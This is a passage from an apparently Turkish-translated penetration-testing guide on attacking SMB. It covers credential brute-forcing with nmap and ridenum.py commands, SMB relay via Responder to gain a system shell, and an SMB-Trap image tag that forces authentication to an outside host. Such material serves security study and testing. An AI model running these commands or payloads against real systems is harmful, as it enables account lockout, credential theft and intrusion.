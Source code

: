 [https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/](https://www.hackingarticles.in/beginners-guide-to-impacket-tool-kit-part-1/)

## **Kullanıcı kimlik bilgilerini kaba kuvvet ile deneme**

**Bu önerilmez, maksimum izin verilen deneme sayısını aşarsanız bir hesabı engelleyebilirsiniz**
```bash
nmap --script smb-brute -p 445 <IP>
ridenum.py <IP> 500 50000 /root/passwds.txt #Get usernames bruteforcing that rids and then try to bruteforce each user name
```
## SMB iletim saldırısı

Bu saldırı, Responder aracını kullanarak bir iç ağda SMB kimlik doğrulama oturumlarını yakalar ve bunları bir hedef makineye iletir. Kimlik doğrulama oturumu başarılı ise, otomatik olarak bir sistem kabuğuna geçersiniz.\
[**Bu saldırı hakkında daha fazla bilgi burada.**](../generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)

## SMB-Trap

Windows kütüphanesi URLMon.dll, bir sayfanın SMB üzerinden bazı içeriklere erişmeye çalıştığında otomatik olarak ana bilgisayara kimlik doğrulama yapmaya çalışır, örneğin: `img src="\\10.10.10.10\path\image.jpg"`

Bu, aşağıdaki işlevlerle gerçekleşir:

* URLDownloadToFile
* URLDownloadToCache
* URLOpenStream
* URLOpenBlockingStream

Bazı tarayıcılar ve araçlar (örneğin Skype) tarafından kullanılır.

![Kaynak: http://www.elladodelmal.com/2017/02/como-hacer-ataques-smbtrap-windows-con.html](<../.gitbook/assets/image (93).png>)
